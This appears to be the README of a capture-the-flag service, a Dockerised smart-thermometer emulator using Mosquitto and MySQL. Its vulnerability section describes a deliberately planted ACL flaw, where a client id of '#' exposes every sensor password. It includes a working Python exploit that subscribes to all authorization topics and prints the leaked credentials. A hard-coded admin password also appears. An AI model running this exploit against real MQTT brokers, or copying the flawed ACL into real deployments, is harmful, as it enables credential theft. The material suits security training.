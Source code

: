 # Thermometer service

## About

Thetmometer service emulates smart thermometer module. It consists of four elements: MQTT-broker, MySQL database, themperature sensor and themperature module.

### MQTT broker

Docker image `thermometer/mqtt-broker` contains [Mosquitto](https://mosquitto.org/) MQTT broker.
As written on the [mosquitto.org](https://mosquitto.org/):
>Eclipse Mosquitto™ is an open source (EPL/EDL licensed) message broker that implements the MQTT protocol versions 3.1 and 3.1.1. MQTT provides a lightweight method of carrying out messaging using a publish/subscribe model. This makes it suitable for "Internet of Things" messaging such as with low power sensors or mobile devices such as phones, embedded computers or microcontrollers like the Arduino.

It supports client authentication (users + passwords) and authorization (acls). To store authentication and authorization information in MySQL Mosquitto uses [mosquitto-auth-plug](https://github.com/jpmens/mosquitto-auth-plug) authentication plugin. This information stores in `mqtt.users` and `mqtt.acls` tables.

`thermometer/mqtt-broker` docker image exposes 1883 tcp port outside. Sensor uses broker to send temperature data. Client use broker to read data from sensors.

### MySQL

Docker image `thermometer/mqtt-db` wraps MySQL server. It contains single db (`mqtt`), two tables (`users` and `acls`) and two users (`mqtt_broker` and `thermometer_module`).
MQTT broker uses `mqtt_broker` user to read auth info from `mqtt-db` database.
Thermometer module uses `thermometer_module` user to add new MQTT users and acls for them.

### Termometer Sensor

Docker image `thermometer/sensor` contains an emulator of temperature sensor. It sends current (random) temperature to MQTT topic `house/temperature`.
To allow sensor to send temperature data `admin` user should add MQTT authentication info for sensor. He can do it via Termometer Module.

After that sensor can publish temperature to `house/temperature` topic.

### Temperature Module

Docker image `thermometer/module` contains service to manage MQTT authentication and authorization. It allows admin user (`admin:webrelay`) to:
* create MQTT user (`<sensor mqtt client id>:<auth token>`) and acl (permission to write to `house/temperature` topic) for sensor.
* create MQTT user (<user name>:<password>) and acl (permission to read from `house/temperature` topic) for temperature data consumer.

## Vulnerabilities

### Read sensor authentication info

Thermometer module authorises sensors via MQTT: it sends MQTT password to topic `house/authorization/<sensor_mqtt_client_id>`.
To disallow anonymous users to read all passwords there is an acl rule in `mqtt.acls` table:

```
+----+--------------------+------------------------+----+
| id | username           | topic                  | rw |
+----+--------------------+------------------------+----+
| .. | ..                 | ..                     | .. |
|  2 | anonymous          | house/authorization/%c |  1 |
| .. | ..                 | ..                     | .. |
+----+--------------------+------------------------+----+
```

This rule expands `house/authorization/%c` to `house/authorization/<mqtt_client_id>`.

But if you pass `#` as `mqtt_client_id` you will get all MQTT passwords (flags) after subscribing to topic `house/authorization/#`!

```python
#!/usr/bin/env python3

import paho.mqtt.client as mqtt
import sys

def on_connect(client, userdata, flags, rc):
    print("Connected to MQTT broker.")
    client.subscribe("house/authorization/#")
    print("Subscribed to topic 'house/authorization/#'.")
    print("Waiting for flags...")

def on_message(client, userdata, msg):
    print(msg.payload)

def exploit(host):
    client = mqtt.Client(client_id="#", clean_session=True)
    client.on_connect = on_connect
    client.on_message = on_message

    print("Connecting to MQTT broker on %s" % host)
    client.connect(host, 1883, 60)
    client.loop_forever()


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print('USAGE: %s <host>' % sys.argv[0])
        exit(-1)

    sys.exit(exploit(sys.argv[1]))
```
